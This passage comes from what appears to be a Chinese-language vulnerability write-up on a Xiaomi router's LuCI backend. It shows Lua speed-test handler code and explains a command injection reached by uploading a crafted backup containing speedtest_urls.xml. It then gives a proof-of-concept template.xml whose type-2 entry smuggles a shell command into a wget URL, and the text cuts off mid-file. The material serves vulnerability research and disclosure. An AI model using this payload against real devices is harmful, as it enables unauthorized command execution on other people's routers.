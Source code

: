 ```lua
            code = 1588
        end
        if code ~= 0 then
           result["msg"] = XQErrorUtil.getErrorMessage(code)
        end
        os.execute("/etc/init.d/miqos start")
    end
    
    result["code"] = code
    LuciHttp.write_json(result)
end
```

```lua
function downloadSpeedTest()
    local speedtest = "/usr/bin/download_speedtest"
    local speed
    -- 直接调用sh文件
    for _, line in ipairs(LuciUtil.execl(speedtest)) do
        if not XQFunction.isStrNil(line) and line:match("^avg rx:") then
            speed = line:match("^avg rx:(%S+)")
            if speed then
                speed = tonumber(string.format("%.2f",speed/8))
            end
            break
        end
    end
    return speed
end
```

所以，我们只需要构造恶意的`speedtest_urls.xml`文件，构造备份文件，上传备份文件，然后调用网络测试相关的接口，即可以实现命令注入。

实现命令执行poc

template.xml文件

```
<?xml version="1.0"?>
<root>
	<class type="1">
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
	</class>
	<class type="2">
		<item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt; exit; wget http://192.168.31.1  "/>
	</class>
	<class type="3">
		<item uploadurl="http://www.taobao.com/"/>
		<item uploadurl="http://www.so.com/"/>
		<item uploadurl="http://www.qq.com/"/>
		<item uploadurl="http://www.sohu.com/"/>
		<item uploadurl="http://www.tudou.com/"/>
```